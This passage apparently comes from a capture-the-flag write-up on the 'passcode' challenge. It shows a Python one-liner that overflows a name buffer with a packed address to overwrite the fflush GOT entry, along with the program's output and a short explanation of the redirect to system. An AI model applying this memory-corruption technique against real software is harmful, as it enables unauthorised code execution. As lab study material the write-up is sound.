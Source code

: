 Let's stitch everything together with Python, and set it off.
```
passcode@ubuntu:~$ python -c 'print "A"*96+"\x04\xa0\x04\x08\n134514147\n"' | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
The address of `fflush` is passed to `scanf`, and so when it is called, `fflush` is called instead. We have the address of the system call right on top of it on the stack, and so when `fflush` is called, we go directly to the memory address of the system call. 
